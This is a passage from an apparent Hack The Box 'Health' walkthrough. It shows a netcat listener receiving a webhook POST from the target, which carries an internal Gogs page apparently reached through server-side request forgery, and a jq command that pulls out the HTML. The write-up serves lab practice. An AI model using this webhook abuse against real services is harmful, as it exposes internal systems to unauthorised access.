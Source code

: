 **Result**

Both methods will result to the following output.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.176] 41024
POST / HTTP/1.1
Host: 10.10.14.21:1235
Accept: */*
Content-type: application/json
Content-Length: 7733
Expect: 100-continue    

{"webhookUrl":"http:\/\/10.10.14.21:1234","monitoredUrl":"http:\/\/10.10.14.21","health":"up","body":"<!DOCTYPE html>\n<html>\n\t<head data-suburl=\"\">\n\t\t<meta http-equiv=\"Content-Type\" content=\"text\/html; charset=UTF-8\" \/>\n        <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\"\/>\n        <meta name=\"author\" content=\"Gogs - Go Git Service\" \/>\n\t\t<meta name=\"description\" content=\"Gogs(Go Git Service) a painless self-hosted Git Service written in Go\" \/>\n\t\t<meta name=\"keywords\" content=\"go, git, self-hosted, gogs\">\n\t\t<meta name=\"_csrf\" content=\"k5-MAum4s1tawmByRJJToJ9EG5E6MTY3MzQzMjE2NDc2MjI3NzA4Mw==\" \/>\n\t\t\n\n\t\t<link rel=\"shortcut icon\
```
To make the result readable use `jq` for the `json` readability and then redirect to the `html` file which you will browse it to see its structure.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/data]
└─$ cat web| jq -r .body > res.hmtl
```
Then open the `res.html` file by your favorite  browser to see how it looks like.

![image](/assets/img/health/07.png)
